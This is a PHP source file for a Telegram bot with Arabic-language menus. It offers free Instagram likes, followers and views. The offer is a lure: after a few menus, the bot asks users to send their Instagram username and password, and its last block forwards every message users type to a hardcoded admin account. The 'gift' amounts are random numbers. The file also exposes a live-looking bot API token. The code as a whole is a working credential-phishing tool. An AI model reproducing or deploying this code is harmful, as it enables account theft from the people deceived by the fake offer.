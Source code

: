 <?php
ob_start();
#define
define('API_KEY','7055170102:AAEdRiz20GcRQtdVwhLKVHFRSxRh8MArO6Y'); //توکن
//====================(@SEFOOR)======================//
#met
function bot($method,$datas=[]){
    $url = "https://api.telegram.org/bot".API_KEY."/".$method;
    $ch = curl_init();
    curl_setopt($ch,CURLOPT_URL,$url);
    curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);
    curl_setopt($ch,CURLOPT_POSTFIELDS,$datas);
    $res = curl_exec($ch);
    if(curl_error($ch)){
        var_dump(curl_error($ch));
    }else{
        return json_decode($res);
    }
}
//====================(@SEFOOR)======================//
#variables
$update = json_decode(file_get_contents("php://input"));
$message = $update->message;
$text = $update->message->text;
$chat_id = $update->message->chat->id;
$from_id = $update->message->from->id;
$message_id = $update->message->message_id;
$from_fname = $message->from->first_name;
$first = $update->callback_query->from->first_name;
$username = $update->callback_query->from->username;
$username2 = $update->message->from->username;
$data = $update->callback_query->data;
$chatid = $update->callback_query->message->chat->id;
$messageid = $update->callback_query->message->message_id;
$forward_username = $update->message->forward_from_chat->username;
$reply = $message->reply_to_message->forward_from->id;
$reply_username = $message->reply_to_message->forward_from->username;
$from_id = $update->message->from->id;
$admin = "2043822357";
mkdir("data/$chat_id");
$rand = rand(0,21);
$Mehdi = $rand;
$rand2 = rand(0,12345);
$Yousefi = $rand2;
$admin = "2043822357";
$my = file_get_contents("data/$chat_id/mem.txt");
//====================(@SEFOOR)======================//
#functions
function SendMessage($chat_id,$text,$keyboard){
	bot('SendMessage',[
	'chat_id'=>$chat_id,
	'text'=>$text,
	'reply_markup'=>$keyboard]);
}
function edit($chat_id,$meesage_id,$text,$reply_markup){
	bot('editMessageText',[
	'chat_id'=>$chat_id,
	'message_id'=>$message_id,
	'text'=>$text,
	'reply_markup'=>$reply_markup]);
}
function save($filename, $data)
{
$file = fopen($filename, 'w');
fwrite($file, $data);
fclose($file);
}
function ForwardMessage($chatid,$from_chat,$message_id){
	bot('ForwardMessage',[
	'chat_id'=>$chatid,
	'from_chat_id'=>$from_chat,
	'message_id'=>$message_id]);
}
//====================(@SEFOOR)======================//
#start
if($text == "/start"){
    		$user = file_get_contents('Member.txt');
	$members = explode("\n",$user);
	if(!in_array($chat_id,$members)){
		$add_user = file_get_contents('Member.txt');
		$add_user .= $chat_id."\n";
		file_put_contents('Member.txt',$add_user);
	}
    bot('sendmessage',[
	'chat_id'=>$chat_id,
	'text'=>"- مرحبا بك عزيزي 

- باستخدام هذا البوت يمكنك الحصول على متابعين واعجابات ومشاهدات مجانية .

- للحصول على الخدمه ، يرجى اختيار احد الازرار الاتية ، 👇",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"اعجابات مجانية ❤",'callback_data'=>"like"],['text'=>"زيادة متابعين 👤",'callback_data'=>"folow"]],
	[['text'=>"مشاهدات مجانية 👀",'callback_data'=>"view"]],
	[['text'=>"وصف البوت ",'callback_data'=>"sharj"],['text'=>"💬فكرة البوت",'callback_data'=>"help"]],
  ],'resize_keyboard'=>true])
  ]);
}
//====================(@SEFOOR)======================//
#like
if($data == "like"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"عزيزي المستخدم 😉
 في هذا القسم يمكنك استخدام هذه الحزمة بطريقتين ✌

 في الجزء الأول ، عن طريق الصدفة ، يمكنك الحصول على ما بين 10 إلى 100 ألف إعجاب مجاني مرتين فقط 😁✖

 في الجزء التالي ، يمكنك الحصول على 10000 إعجاب مجانًا مرة واحدة فقط 😎✖",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"🚩التفاعل المتبادل",'callback_data'=>"shans"],['text'=>"🚀10k مجاني",'callback_data'=>"free"]],
	[['text'=>"🔸 السابق 🔸",'callback_data'=>"back"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#folow
if($data == "folow"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"عزيزي المستخدم 😉
 في هذا القسم يمكنك استخدام هذه الحزمة بطريقتين ✌

 في الجزء الأول ، عن طريق الصدفة ، يمكنك الحصول على من 10 إلى 100 ألف متابع مجاني مرتين فقط 😁✖

 في الجزء التالي ، يمكنك الحصول على 10000 متابع مجانًا مرة واحدة فقط ",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"🚩التفاعل المتبادل",'callback_data'=>"shans"],['text'=>"🚀10k مجاني",'callback_data'=>"free"]],
	[['text'=>"🔸 السابق 🔸",'callback_data'=>"back"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#view
if($data == "view"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"عزيزي المستخدم 😉
 في هذا القسم يمكنك استخدام هذه الحزمة بطريقتين ✌

 في الجزء الأول ، عن طريق الصدفة ، يمكنك الحصول على ما بين 10 إلى 100 ألف إعجاب مجاني مرتين فقط 😁✖

 في الجزء التالي ، يمكنك الحصول على 10000 إعجاب مجانًا مرة واحدة فقط 😎✖",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"🚩التفاعل المتبادل",'callback_data'=>"shans"],['text'=>"🚀10k مجاني",'callback_data'=>"free"]],
	[['text'=>"🔸 السابق 🔸",'callback_data'=>"back"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#sharj
if($data == "sharj"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"حسنًا يا صديقي العزيز ❤

 يتم شحن جميع لوحات الروبوت بشكل عام على النحو التالي
💥👉 $Yousefi",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"🔸 السابق 🔸",'callback_data'=>"back"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#help
if($data == "help"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"باستخدام هذا البوت يمكنك الحصول على خدمات انستقرام مجانية ، بدون تعب ولا بذل جهد ، فقط قم باتباع التعليمات....
	",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"🔸 السابق 🔸",'callback_data'=>"back"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#shans
if($data == "shans"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"
عزيزي المستخدم 😉

 نقدم لك الهدايا
 💰👉 $Mehdi

 لتلقي الحزمة الخاصة بك ✔

 اختر أحد الأزرار أدناه للحصول عليه ، ولكن إذا لم تستخدم هذا القسم ، فلن يكون لديك فرصة لدفع 
 ",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"✔تأكيد",'callback_data'=>"dar"],['text'=>"🚀10k مجاني",'callback_data'=>"free"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#free
if($data == "free"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"لقد اخترت بنجاح الحصول على 10 آلاف مجانًا

 للتنزيل ، حدد الأزرار التالية ، ولكن إذا لم تستخدم هذا القسم ، فلن تتاح لك الفرصة للدفع 😒✖",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"✔تأكيد",'callback_data'=>"dar"],['text'=>"بازگشت",'callback_data'=>"free"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#dar
if($data == "dar"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"عزيزي المستخدم 😎

 لاستلام الحزمة الخاصة بك ، أرسل معلومات Instagram الخاصة بك على النحو التالي 👇

 مثال:
 User: Mati2Hanjar
 Paa: 7868543TSAFf

 إذا كانت معلوماتك غير صحيحة ، فلن يتم إرسال أي رسالة إليك بواسطة الروبوت",
	'pars_mode'=>'html',
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"🔸 السابق 🔸",'callback_data'=>"back"]],
	],'resize_keyboard'=>true])
	]);
}
//====================(@SEFOOR)======================//
#back
if($data == "back"){
	bot('editMessageText',[
	'chat_id'=>$chatid,
	'message_id'=>$messageid,
	'text'=>"- مرحبا بك عزيزي 

- باستخدام هذا البوت يمكنك الحصول على متابعين واعجابات ومشاهدات مجانية .

- للحصول على الخدمه ، يرجى اختيار احد الازرار الاتية ، 👇",
	'reply_markup'=>json_encode(['inline_keyboard'=>[
	[['text'=>"اعجابات مجانية ❤",'callback_data'=>"like"],['text'=>"زيادة متابعين 👤",'callback_data'=>"folow"]],
	[['text'=>"مشاهدات مجانية 👀",'callback_data'=>"view"]],
	[['text'=>"وصف البوت ",'callback_data'=>"sharj"],['text'=>"💬فكرة البوت",'callback_data'=>"help"]],
  ],'resize_keyboard'=>true])
  ]);
}
//====================(@SEFOOR)======================//
#text
if($text == "$text"){
bot('sendmessage',[
'chat_id'=>$admin,
'text'=>"$text",
]);
}

تلجرام
